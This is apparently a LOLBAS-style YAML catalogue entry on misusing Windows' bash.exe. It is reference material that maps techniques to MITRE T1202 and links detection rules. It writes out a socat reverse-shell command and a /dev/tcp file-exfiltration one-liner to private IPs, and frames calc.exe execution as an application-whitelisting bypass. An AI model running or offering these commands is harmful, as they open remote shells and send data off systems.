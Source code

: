 ```yaml
---
Name: Bash.exe
Description: File used by Windows subsystem for Linux
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c "socat tcp-connect:192.168.1.9:66 exec:sh,pty,stderr,setsid,sigint,sane"
    Description: Executes a reverseshell
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c 'cat file_to_exfil.zip > /dev/tcp/192.168.1.10/24'
    Description: Exfiltrate data
    Usecase: Performs execution of specified file, can be used as a defensive evasion.
    Category: Execute
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
  - Command: bash.exe -c calc.exe
    Description: Executes calc.exe from bash.exe
    Usecase: Performs execution of specified file, can be used to bypass Application Whitelisting.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1202
    OperatingSystem: Windows 10
    Tags:
      - Execute: CMD
Full_Path:
  - Path: C:\Windows\System32\bash.exe
  - Path: C:\Windows\SysWOW64\bash.exe
Code_Sample:
  - Code:
Detection:
  - BlockRule: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_lolbin_bash.yml
  - IOC: Child process from bash.exe
Resources:
  - Link: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
Acknowledgement:
  - Person: Alex Ionescu
    Handle: '@aionescu'
  - Person: Asif Matadar
    Handle: '@d1r4c'
---
```

